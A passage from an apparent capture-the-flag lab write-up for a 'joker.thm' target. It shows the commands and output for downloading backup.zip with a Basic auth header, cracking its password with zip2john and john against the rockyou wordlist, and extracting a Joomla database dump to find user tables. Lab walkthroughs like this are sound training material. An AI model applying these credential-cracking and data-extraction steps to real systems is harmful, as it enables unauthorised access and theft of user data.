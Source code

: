 ```jsx

[REDACTED] - SAME

backup.zip
```

`wget --header="Authorization: Basic am9rZXI6aGFubmFo" http://joker.thm:8080/backup.zip -O backup.zip`

```jsx
backup.zip                         100%[===============================================================>]  11.57M   496KB/s    in 34s     

2024-12-24 06:20:37 (344 KB/s) - ‘backup.zip’ saved [12133560/12133560]
```

> **ZIP File Password Cracking & Credentials Phase**
> 

`zip2john backup.zip > ziphash`

`sudo john ziphash --wordlist=/usr/share/wordlists/rockyou.txt`

```jsx
hannah           (backup.zip)
```

`unzip backup.zip`

```jsx
Archive:  backup.zip
   creating: db/
[backup.zip] db/joomladb.sql password: hannah
  inflating: db/joomladb.sql
  
[REDACTED] - MORE
```

`ls -lsa db`

```jsx
total 260
  4 drwxr-xr-x 2 root root   4096 Oct 25  2019 .
  4 drwxr-xr-x 4 root root   4096 Dec 24 06:24 ..
252 -rw-r--r-- 1 root root 257091 Oct 25  2019 joomladb.sql
```

`grep CREATE TABLE db/joomladb.sql | grep user`

```jsx
db/joomladb.sql:CREATE TABLE `cc1gr_user_keys` (
db/joomladb.sql:CREATE TABLE `cc1gr_user_notes` (
db/joomladb.sql:CREATE TABLE `cc1gr_user_profiles` (
db/joomladb.sql:CREATE TABLE `cc1gr_user_usergroup_map` (
db/joomladb.sql:CREATE TABLE `cc1gr_usergroups` (
db/joomladb.sql:CREATE TABLE `cc1gr_users` (
```
